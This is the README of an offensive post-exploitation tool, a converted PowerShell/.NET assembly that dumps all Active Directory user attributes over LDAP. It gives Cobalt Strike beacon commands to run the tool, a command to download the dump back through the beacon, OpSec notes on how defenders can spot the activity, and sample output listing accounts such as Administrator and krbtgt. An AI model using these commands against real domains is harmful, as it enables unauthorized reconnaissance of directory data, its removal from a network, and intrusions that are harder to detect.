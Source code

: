 # Overview

This is a simple PS2EXE .NET assembly which will query default domain controller and extract all available user attributes from the domain via LDAP.

The key point about this is that this is converted powershell script and for ease of deployment via both ```execute-assembly``` as well as ```powershell``` commands.

# Examples 

This will dump all users on the default domain via execute-assembly:

```beacon> execute-assembly /tmp/ldap_dumpX86.NET2.exe```

This will dump all users on the default domain via powershell:

```beacon> powershell-import ldap_dump.ps1```
```beacon> powershell dump_all_ldap```

# Results

Simply download result file via following command: 

```beacon> download ldap_dump.txt```

# OpSec

This script will create file in the current working folder named ```ldap_dump.txt```. The file is clear text so it easy to monitor for. Also this script dumps all attributes from LDAP server so this can be noisy.

# Sample Output
```
beacon> execute-assembly ldap_dumpX86.NET2.exe
[*] Tasked beacon to run .NET program: ldap_dumpX86.NET2.exe
[+] host called home, sent: 142379 bytes
[+] received output:
[+] Dumping LDAP attributes for: Administrator
[+] Dumping LDAP attributes for: Guest
[+] Dumping LDAP attributes for: krbtgt
[+] Dumping LDAP attributes for: SystemMailbox{1f05a927-3543-4354-946a-e6752ef9bebf}
[+] Dumping LDAP attributes for: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}
[+] Dumping LDAP attributes for: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}
```